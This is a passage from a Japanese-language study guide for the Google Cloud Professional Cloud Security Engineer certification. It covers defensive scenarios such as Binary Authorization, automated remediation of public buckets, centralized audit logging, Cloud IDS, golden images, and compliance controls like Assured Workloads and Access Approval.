       ├─ Artifact Analysis による脆弱性スキャン（重大な CVE がないことを確認）
       │
       ▼
【証明者（Attestor）による暗号署名】
       ├─ Cloud KMS の非対称秘密鍵を用いてイメージのダイジェスト（SHA256）に署名
       └─ 暗号化されたアテスト（証明）を Binary Authorization に登録
       │
       ▼
【GKE / Cloud Run デプロイ要求】
       ├─ Binary Authorization のアドミッションコントローラが介入
       ├─ 「有効な証明者の署名が存在するか？」を検証
       │   ├─ [署名あり] ──► 【デプロイ成功 (承認)】
       │   └─ [署名なし] ──► 【デプロイ拒否 (403 遮断 & 監査ログ記録)】
```

### 3. 実践シナリオ

#### シナリオ 4-1: Binary Authorization による未承認コンテナイメージの本番デプロイ遮断

- **状況**: マイクロサービスアーキテクチャを採用する組織において、開発者がテストされていない個人の野良コンテナイメージや、ローカルでビルドした未スキャンイメージを本番の GKE クラスタへ直接 `kubectl apply` してデプロイすることを完全に阻止したい場合
- **対応**: 本番 GKE クラスタで Binary Authorization を有効化し、社内の公式 CI/CD パイプライン（Cloud Build）に紐づく証明者（Attestor）の署名が存在することを必須とする評価ポリシーを構成し、署名鍵には Cloud KMS の非対称署名鍵を使用する。
- **結果**: CI/CD パイプラインでの脆弱性スキャンを通過して正式に署名されたイメージのみがクラスタ上で起動を許可され、開発者による手動デプロイや未検証イメージの実行がアドミッションコントローラレベルで自動拒否される。
- **解説**: Binary Authorization は Kubernetes の受付制御（Admission Controller）とネイティブに統合されており、署名のないコンテナの作成リクエストを根本から遮断できるためです。開発者からクラスタ管理権限を奪うだけでは、権限を持つ他の運用者が誤って不正なイメージをデプロイするリスクを排除できません。
- **参考ドキュメント**:
  - [Binary Authorization の概要](https://docs.cloud.google.com/binary-authorization/docs/overview?hl=ja): 署名ベースのデプロイ制御。

#### シナリオ 4-2: Security Command Center と Cloud Functions による不審な公開バケットの自動即時修復

- **状況**: クラウドストレージ内の設定ミスにより、開発者が誤って Cloud Storage バケットのアクセス権に `allUsers` や `allAuthenticatedUsers` を追加してインターネットへ公開してしまう事故が散発しており、検知から数秒以内に自動修復して非公開化したい場合
- **対応**: Security Command Center のリアルタイム通知機能を有効化し、Security Health Analytics が検出したバケット公開の脆弱性（`PUBLIC_BUCKET_ACL`）イベントを Cloud Pub/Sub トピックにパブリッシュさせ、そのイベントをトリガーとして Cloud Functions を起動し、対象バケットのパブリックアクセスを即座に削除（IAM ポリシー修正）する自動修復スクリプトを実行する。
- **結果**: 設定ミスが発生してから数秒以内に自動的にパブリックアクセス権が剥奪され、管理者にインシデント通知が送信されるため、情報漏洩のリスクウィンドウが最小化される。
- **解説**: SCC と Pub/Sub、Cloud Functions を組み合わせることで、イベント駆動型のサーバーレス自動修復（SOAR）パイプラインを構築できるためです。日次の定期監査スクリプトを実行する方式では、バケットが公開されてから検知・修正されるまでに最大 24 時間のタイムラグが発生し、機密データが持ち出されるリスクを防げません。
- **参考ドキュメント**:
  - [Security Command Center の通知の構成](https://docs.cloud.google.com/security-command-center/docs/how-to-notifications?hl=ja): 検出結果の Pub/Sub 連携。

#### シナリオ 4-3: 組織全体の監査ログを集約シンク（Aggregated Sinks）で集中 SIEM へリアルタイム転送

- **状況**: エンタープライズ内に数十の Google Cloud プロジェクトが存在するが、社内のセキュリティ運用センター（SOC）において、全プロジェクトの Cloud Audit Logs（管理活動ログおよびデータアクセスログ）を一元管理し、オンプレミスの外部 SIEM（Splunk 等）へリアルタイム転送して相関分析を行いたい場合
- **対応**: 組織の最上位レベルでログルーターの「集約シンク（Aggregated Sink）」を作成し、配下の全プロジェクトを対象（`includeChildren=true`）として監査ログをフィルタリングし、集中ロギング専用プロジェクト内の Cloud Pub/Sub トピックへエクスポートして、SIEM のコレクターから Pull / Push 連携させる。
- **結果**: 将来的に新規プロジェクトが追加された場合であっても、個別の設定作業なしで自動的に監査ログが集約・転送され、設定漏れのない中央集権的な監査ログ基盤が確立される。
- **解説**: 組織レベルの集約シンクを使用することで、子プロジェクト側の設定に依存せず、組織配下の全リソースのログを確実にキャプチャできるためです。各プロジェクトで個別にログシンクを作成する手法は、プロジェクト増加時の管理コストが膨大になり、プロジェクト管理者が故意または誤ってシンクを削除するリスクがあるため不適格です。
- **参考ドキュメント**:
  - [組織レベルの集約シンクの構成](https://docs.cloud.google.com/logging/docs/export/aggregated_sinks?hl=ja): 集中ロギングのベストプラクティス。

#### シナリオ 4-4: Cloud IDS と Packet Mirroring による侵入検知と不審な C2 通信の可視化

- **状況**: VPC 内で稼働する基幹業務サーバーがマルウェアに感染し、外部の攻撃者サーバー（Command & Control: C2）と不正通信を行っている疑いがあるが、既存のファイアウォールログでは通信の成否（ALLOW/DENY）しか把握できず、通信ペイロードに含まれる脅威シグネチャを検知したい場合
- **対応**: 対象のサブネットに Packet Mirroring を設定し、マネージド侵入検知サービスである Cloud IDS をデプロイしてトラフィックを複製・インラインディープパケットインスペクション（DPI）させ、重大な脅威が検出された際に SCC に Findings を生成させる。
- **結果**: 仮想マシンにエージェントを追加導入することなく、パケットペイロード内のマルウェア通信や脆弱性悪用シグネチャが高精度に検出され、SCC を通じて即座に隔離アクションへ移行できる。
- **解説**: Cloud IDS はパロアルトネットワークスの脅威防御エンジンをベースとしたフルマネージド IDS であり、レイヤ 7 のシグネチャベース侵入検知をクラウドネイティブに提供できるためです。VPC フローログのみを分析する手法は、IP やポートなどのメタデータしか記録されず、パケット内容のシグネチャ解析ができないため不適格です。
- **参考ドキュメント**:
  - [Cloud IDS の概要](https://docs.cloud.google.com/intrusion-detection-system/docs/overview?hl=ja): クラウド侵入検知システムの実装。

#### シナリオ 4-5: VM およびコンテナのゴールデンイメージ自動作成と脆弱性パッチ管理

- **状況**: 全社で利用する Compute Engine インスタンスおよび Cloud Run / GKE コンテナのベースイメージに対し、CIS ベンチマークに準拠したセキュリティ強化（不要なポート・デーモンの停止、OS パラメータのハードニング）と最新のセキュリティパッチ適用を自動化し、古い脆弱なイメージの利用を組織全体で禁止したい場合
- **対応**: Cloud Build および Packer を用いてベースイメージの自動ビルド・テスト・脆弱性スキャンパイプラインを構築し、合格したイメージのみを中央の共有プロジェクトに格納し、組織ポリシー `compute.restrictImageCreators` を適用して開発者が承認済みプロジェクトのイメージ以外から VM を起動できないよう強制する。
- **結果**: 組織全体で起動されるすべての VM が、常に脆弱性の修正された承認済みゴールデンイメージに基づくことが保証され、野良イメージによる脆弱性の混入が排除される。
- **解説**: 組織ポリシーによるイメージ作成者の制限と、自動化されたイメージパイプラインを組み合わせることで、インフラのブートストラップ段階でセキュリティガードレールを強制できるためです。手動で作成したイメージを各プロジェクトにコピーして配布する運用は、パッチ適用の追従や古いイメージの廃止が徹底できず要件を満たせません。
- **参考ドキュメント**:
  - [組織ポリシー制約: 信頼できるイメージの定義](https://docs.cloud.google.com/compute/docs/images/restricting-image-access?hl=ja): 承認済みゴールデンイメージの強制。

### 4. 参考ドキュメント & 推奨ハンズオン

#### 公式一次ドキュメント
- [Security Command Center の概要](https://docs.cloud.google.com/security-command-center/docs/security-command-center-overview?hl=ja): 統合セキュリティ管理。
- [Binary Authorization の概要](https://docs.cloud.google.com/binary-authorization/docs/overview?hl=ja): 署名ベースのデプロイ制御。
- [Cloud Audit Logs の概要](https://docs.cloud.google.com/logging/docs/audit?hl=ja): 監査ログの種類と設計。
- [Cloud IDS の概要](https://docs.cloud.google.com/intrusion-detection-system/docs/overview?hl=ja): 侵入検知の実装。
- [Security Health Analytics のルール](https://docs.cloud.google.com/security-command-center/docs/concepts-vulnerabilities-findings): 設定ミス検出。

#### 推奨ハンズオン・ラボ（実機検証）
- [Mitigate Threats and Vulnerabilities with Security Command Center (Skill Badge)](https://www.skills.google/paths/15):
  - **学習目標**: Security Command Center の有効化、Security Health Analytics による脆弱性検出、Event Threat Detection による脅威検知と自動修復の連携を検証。

---

## Section 5: コンプライアンス要件のサポート (約 12%)

本セクションでは、Google Cloud における責任共有モデルの評価、国内外の法規制・業界標準（PCI DSS, HIPAA, FedRAMP, GDPR 等）への適合、データの地理的保管場所（データレジデンシー）の強制、および Google サポートやエンジニアによるアクセスの監査・制限機能（Assured Workloads, Access Transparency, Access Approval）が問われます。



### 1. セクション概要

パブリッククラウドを利用する企業において、自社のデータやワークロードが「どのような法規制に縛られ」「クラウドベンダーと自社で責任の境界がどこにあるのか」を正確に定義し、技術的コントロールを適用することはコンプライアンスの絶対条件です。

Google Cloud のコンプライアンス支援基盤は、単に「Google が国際認証（ISO 27001, SOC 2 等）を取得している」というベンダー側の証明にとどまりません。顧客が自社のコンプライアンス要件（データの特定地域内保持、専任スタッフによるサポート、クラウドベンダー自身の特権アクセスに対する明示的承認など）を、プラットフォームのコードおよびガードレール（Assured Workloads 等）として自動強制できるエンタープライズ機能を提供しています。

#### 重要キーワード

- **責任共有モデル（Shared Responsibility Model）**: クラウドにおけるセキュリティ責任の分担モデル。Google が担う「クラウド自体のセキュリティ（Security OF the Cloud: 物理データセンター、ハードウェア、基盤ネットワーク等）」と、顧客が担う「クラウド内のセキュリティ（Security IN the Cloud: IAM、暗号化、データ分類、OS パッチ、アプリ構成等）」を明確に峻別します。
- **Assured Workloads**: 政府機関や規制業界（金融、医療等）向けに、特定のコンプライアンス体制（FedRAMP, CJIS, IL4, 欧州データ主権等）に適合するプロジェクト環境を、事前定義された組織ポリシー制約とともに数クリックでプロビジョニングするサービス。
- **データレジデンシー（Data Residency / リージョン化）**: 組織ポリシー `gcp.resourceLocations` を使用して、データの保存場所および処理場所を特定の地理的地域（例: `asia-northeast1` [東京] のみ）に強制制限するガバナンス機構。
- **アクセスの透明性（Access Transparency）**: Google のサポートエンジニアや管理者が、障害対応やメンテナンス等の正当な理由で顧客のデータにアクセスした際の記録（ログ）を、ほぼリアルタイムで顧客の Cloud Logging に直接配信する監査機能。
- **アクセス承認（Access Approval）**: Google のサポートエンジニアが顧客のデータや仮想マシンにアクセスする必要が生じた際、事前に顧客管理者の明示的な手動承認を必須とする機能。承認されない限り Google 社員であってもアクセスできません。
- **コンプライアンス レポート マネージャー（Compliance Reports Manager）**: Google Cloud の SOC 1/2/3 レポート、ISO/IEC 認証書、PCI DSS 準拠証明書（AoC）などを顧客が直接オンデマンドでダウンロードできるポータル。

### 2. 重要トピック

#### 1. 責任共有モデルにおけるサービスモデル別（IaaS vs PaaS vs SaaS）の責任分界マトリクス

どのサービスモデルを採用するかによって、顧客が実装・維持すべきセキュリティコントロールの範囲は劇的に変化します。

| セキュリティ領域 | オンプレミス | IaaS (Compute Engine) | PaaS (Cloud Run / App Engine) | SaaS / サーバーレス (BigQuery / GCS) |
| :--- | :--- | :--- | :--- | :--- |
| **データ分類とアクセス権 (IAM)** | 顧客 | 顧客 | 顧客 | 顧客 |
| **アプリケーションの保護** | 顧客 | 顧客 | 顧客 | Google (プラットフォーム) / 顧客 (コード) |
| **OS のパッチ・構成・強化** | 顧客 | 顧客 (Guest OS) | Google | Google |
| **仮想化・ハイパーバイザ** | 顧客 | Google | Google | Google |
| **物理インフラ・データセンター** | 顧客 | Google | Google | Google |

- **アーキテクトの選定基準**:
  - **運用保守負荷の最小化**: OS パッチ適用や基盤強化の責任を Google にオフロードし、自社が「データと IAM の保護」に専念したい場合は、IaaS（Compute Engine）ではなく **PaaS（Cloud Run）** やマネージドサービス（BigQuery）を最優先で選定します。

#### 2. ガバナンス・アクセス統制ツールの役割比較

Google 自身の運用介入を厳格に管理・監査するための高度なガバナンスツール群の役割分担は以下の通りです。

| サービス名 | 主な目的 | 制御のタイミング | 動作内容 |
| :--- | :--- | :--- | :--- |
| **Assured Workloads** | 規制準拠環境の自動構築 | 環境構築時（事前） | 規制要件に応じたリソースロケーション制限、暗号化設定、アクセス制約を一括適用。 |
| **アクセス承認 (Access Approval)** | Google スタッフアクセスの事前制御 | アクセス発生前（リアルタイム） | サポート要請時、Google エンジニアのアクセス要求を顧客管理者が承認/拒否。 |
| **アクセスの透明性 (Access Transparency)** | Google スタッフアクセスの事後監査 | アクセス発生時（ログ配信） | Google 社員がサポート目的でアクセスした理由・日時・対象リソースを監査ログに出力。 |

### 3. 実践シナリオ

#### シナリオ 5-1: 組織ポリシーによる日本国内（東京・大阪）へのデータ保管場所の強制制限

- **状況**: 国内の個人情報保護法および業界ガイドラインに準拠するため、社内の全プロジェクトにおいて、Cloud Storage バケット、BigQuery データセット、Compute Engine ディスクの作成場所を、日本国内のリージョン（`asia-northeast1` [東京] および `asia-northeast2` [大阪]）のみに物理的に制限したい場合
- **対応**: 組織のルートレベルで組織ポリシーの「リソースのロケーションの制限（`constraints/gcp.resourceLocations`）」制約を設定し、許可値として `in:asia-northeast1-locations` および `in:asia-northeast2-locations` のみを指定して強制適用する。
- **結果**: 開発者が誤って、あるいは意図的に米国や欧州のリージョンを指定してリソースを作成しようとした場合、リソース作成 API コールがプラットフォームレベルで即座に拒否される。
- **解説**: 組織ポリシー制約 `gcp.resourceLocations` を用いることで、リソース作成時にリージョンを自動検証し、指定外の地理的ロケーションへのデータ展開を根本から防止できるためです。IAM 権限のみで制限しようとするアプローチは、リージョン指定ミスを技術的にブロックできず、プロジェクトごとに設定が形骸化するリスクがあるため不適格です。
- **参考ドキュメント**:
  - [リソース ロケーションの制限](https://docs.cloud.google.com/organization-policy/restrict-locations?hl=ja): データレジデンシーの強制。

#### シナリオ 5-2: アクセス承認（Access Approval）による Google サポート介入時の明示的許可フロー

- **状況**: 厳格な情報隔離が求められる官公庁向けクラウド環境において、Google のサポートエンジニアがシステム障害調査のために顧客の仮想マシンやデータベース内部にアクセスする必要が生じた場合でも、事前に顧客側のセキュリティ責任者の承認なしにアクセスすることを完全に禁止したい場合
- **対応**: 組織レベルで「アクセス承認（Access Approval）」を有効化し、承認リクエストの通知先としてセキュリティ担当チームのメールアドレスおよび Pub/Sub トピックを登録し、理由と対象リソースを確認した上で手動承認した場合にのみ一時的なアクセスを許可する。
- **結果**: 顧客による明示的な暗号署名付き承認が得られない限り、Google のエンジニアであっても顧客環境の内部データにアクセスすることが不可能となる。
- **解説**: アクセス承認を有効化することで、クラウドプロバイダ側の特権アクセスに対する「顧客による事前承認ゲート」を強制できるためです。アクセスの透明性（Access Transparency）のみを有効化する手法は、アクセスされた事実はログで追跡できるものの、事前のアクセス阻止はできないため要件を満たせません。
- **参考ドキュメント**:
  - [アクセス承認の概要](https://docs.cloud.google.com/assured-workloads/access-approval/docs/overview?hl=ja): プロバイダアクセスの事前制御。

#### シナリオ 5-3: アクセスの透明性（Access Transparency）によるクラウドプロバイダ運用の監査証跡確保

- **状況**: 外部の第三者監査機関から、Google Cloud を利用するにあたり「Google の運用担当者が顧客データに対して行ったすべての管理操作およびサポートアクセスについて、自社のセキュリティ監査ログと同等に記録・検証できていること」を証明するよう求められた場合
- **対応**: 組織全体で「アクセスの透明性（Access Transparency）」を有効化し、生成されるログストリーム（`cloudaudit.googleapis.com/access_transparency`）を集中ログバケットに保持し、Cloud Monitoring でアラートポリシーを設定して定例監査レポートを出力する。
- **結果**: Google スタッフがサポートや保守のために顧客データにアクセスした際の「アクセス理由」「影響を受けたリソース」「アクセス日時」「オペレーターの所在地」が完全に可視化され、監査証跡として提示可能となる。
- **解説**: アクセスの透明性は、クラウドプロバイダ側の手動操作を顧客自身の Cloud Audit Logs に直接取り込む唯一のマネージド機能であり、第三者監査要件を完全に充足できるためです。通常の Cloud Audit Logs（Admin Activity / Data Access）のみを保持する手法では、顧客自身のアクションしか記録されず、Google 内部の運用アクションを証明できないため不適格です。
- **参考ドキュメント**:
  - [アクセスの透明性の概要](https://cloud.google.com/access-transparency/docs/overview?hl=ja): プロバイダ運用の透明性確保。

#### シナリオ 5-4: Assured Workloads によるコンプライアンス要件に準拠した隔離環境の即時プロビジョニング

- **状況**: ヘルスケア企業が米国の医療保険の相互運用性と説明責任に関する法律（HIPAA）および米国の連邦規制（FedRAMP Moderate）に準拠した新しい分析基盤を立ち上げる必要があるが、膨大なセキュリティ設定（暗号化、アクセス制限、スタッフ要件）を手動で構成する時間とミスを防ぎたい場合
- **対応**: Google Cloud コンソールで Assured Workloads を使用し、コンプライアンス体制として「FedRAMP Moderate」または「HIPAA」を選択して新しいフォルダ環境をプロビジョニングする。
- **結果**: 必要な組織ポリシー（ロケーション制限、CMEK 強制、アクセス承認など）が事前適用された安全なフォルダ階層が自動的に作成され、構成ドリフトが発生した際も Assured Workloads ダッシュボードで継続的に違反が監視・通知される。
- **解説**: Assured Workloads を利用することで、業界規制に特化したガードレールをワンストップで自動構成し、自社で手動設定する際の構成ミスやコンプライアンス監査落ちのリスクを排除できるためです。ゼロから個別の組織ポリシーを手動作成する方式は、規制要件の網羅性検証に多大な工数がかかり、監査証跡の担保が困難なため不適格です。
- **参考ドキュメント**:
  - [Assured Workloads の概要](https://docs.cloud.google.com/assured-workloads/docs?hl=ja): 規制準拠環境の自動構成。

#### シナリオ 5-5: 責任共有モデルに基づく IaaS から PaaS への移行による OS 脆弱性リスクのオフロード

- **状況**: 自社の Web アプリケーションを Compute Engine インスタンス（IaaS）上の Linux VM で運用しているが、毎月発生する OS カーネルの脆弱性パッチ適用やセキュリティパッチ適用のための夜間メンテナンス停止が開発チームの重大な負担となっており、責任共有モデルを活用して OS 運用の責任を Google に移管したい場合
- **対応**: Web アプリケーションをコンテナ化し、フルマネージドのサーバーレス実行環境である Cloud Run（PaaS）へアーキテクチャ移行する。
- **結果**: ゲスト OS のハードニング、カーネルパッチ適用、ランタイム基盤のセキュリティ更新の責任が完全に Google 側へオフロードされ、自社はコンテナイメージ内のコードと IAM のセキュリティのみに注力可能となる。
- **解説**: 責任共有モデルにおいて、PaaS / サーバーレスを採用することで、OS レイヤ以下の運用責任がクラウドプロバイダに移行するためです。Compute Engine のままパッチ管理ツール（OS Config 等）を自動化する手法は、自動化は進むものの OS レイヤの最終的なセキュリティ維持責任が自社に残るため、本質的な責任移管になりません。
- **参考ドキュメント**:
  - [Google Cloud のセキュリティに関するベスト プラクティス](https://docs.cloud.google.com/architecture/framework/security?hl=ja): 責任共有モデルの理解と設計。

### 4. 参考ドキュメント & 推奨ハンズオン

#### 公式一次ドキュメント
- [Google Cloud の責任共有モデル](https://docs.cloud.google.com/architecture/framework/security?hl=ja): クラウドセキュリティの責任分界。
- [Assured Workloads の概要](https://docs.cloud.google.com/assured-workloads/docs?hl=ja): 規制準拠フォルダの作成。
- [組織ポリシー制約によるロケーション制限](https://docs.cloud.google.com/organization-policy/restrict-locations?hl=ja): データレジデンシーの管理。
- [アクセスの透明性の概要](https://cloud.google.com/access-transparency/docs/overview?hl=ja): プロバイダアクセスの可視化。
- [アクセス承認の概要](https://docs.cloud.google.com/assured-workloads/access-approval/docs/overview?hl=ja): プロバイダアクセスの事前承認。

#### 推奨ハンズオン・ラボ（実機検証）
- [Security Best Practices in Google Cloud (Skill Badge)](https://www.skills.google/paths/15):
  - **学習目標**: 組織ポリシー制約の適用、監査ログの収集・分析、データレジデンシー設定の実機構築。

---

## まとめと推奨学習ステップ

### 本認定試験対策の全体要約

Professional Cloud Security Engineer 認定試験で問われる本質は、単一の製品知識ではなく、「多層防御（Defense in Depth）」と「ゼロトラスト原則」を組み合わせた統合アーキテクチャの意思決定能力です。

1. **アイデンティティ（Identity）**: 静的キーを完全に排除し、Workload Identity 連携や権限借用、IAM 条件、IAM 拒否ポリシーによる最小権限のガードレールを確立する。
2. **ネットワーク（Network）**: ファイアウォールによるトラフィック制御に加え、VPC Service Controls による「データ持ち出し防止」を最重要境界として設計する。
3. **データ（Data）**: 保存中（At Rest: CMEK/HSM）、転送中（In Transit: TLS/MACsec）、使用中（In Use: Confidential Computing）の 3 態すべてにおいて暗号化を適用し、Sensitive Data Protection による機密データの自動秘匿化を徹底する。
4. **運用（Operations）**: Binary Authorization によるサプライチェーン防御と、Security Command Center による脅威検知・自動修復をリアルタイムでループさせる。
5. **ガバナンス（Governance）**: 責任共有モデルを把握し、Assured Workloads やアクセス承認 / アクセスの透明性を用いて、最もクラウドらしい自動化と監査体制を構築する。

### 推奨学習・復習ステップ

1. **実践シナリオの「解説」に着目した意思決定トレーニング**:
   - 本ガイドに収録された全 25 件の実践シナリオを通読し、「なぜその選択肢が正解なのか」だけでなく、「なぜ他の代替アプローチ（単なる VPN、手動監査、レガシーキー管理等）ではダメなのか」という棄却理由を自身の言葉で説明できるように反復練習してください。
2. **公式模擬試験による実力測定**:
   - Google Cloud 公式模擬試験を受験し、出題文における「ビジネス制約（最小の運用負荷、ゼロトラスト、データ持ち出し遮断）」を素早くキーワードとして拾い上げる読解スピードを養ってください。
3. **実機コンソールおよび gcloud CLI での動作検証**:
   - 推奨ハンズオンラボを活用し、VPC Service Controls の境界作成、Cloud KMS の鍵作成、IAM 拒否ポリシーの CEL 式記述、Security Command Center の通知連携を実際に手を動かして体感してください。
